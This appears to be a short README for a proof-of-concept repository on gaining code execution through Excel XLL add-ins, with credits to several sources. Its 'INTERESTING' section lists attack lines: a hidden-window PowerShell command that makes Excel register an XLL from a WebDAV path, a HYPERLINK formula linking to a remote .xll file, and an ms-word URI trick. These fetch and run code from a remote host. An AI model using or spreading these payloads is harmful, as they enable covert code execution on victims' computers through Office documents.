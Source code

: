 # xllpoc
Code Exec via Excel

<strong>CREDIT</strong><br>
<li>EdParcell: https://github.com/edparcell/HelloWorldXll </li><br>
MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx <br> 
Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52 <br>
Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ <br>
Many others

<br><br>
<strong>INTERESTING</strong><br>
ms-word:nft|u|http://PATH  <br>
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"  <br>
=HYPERLINK("http://127.0.0.1/xll.xll", "CLICK"  <br>
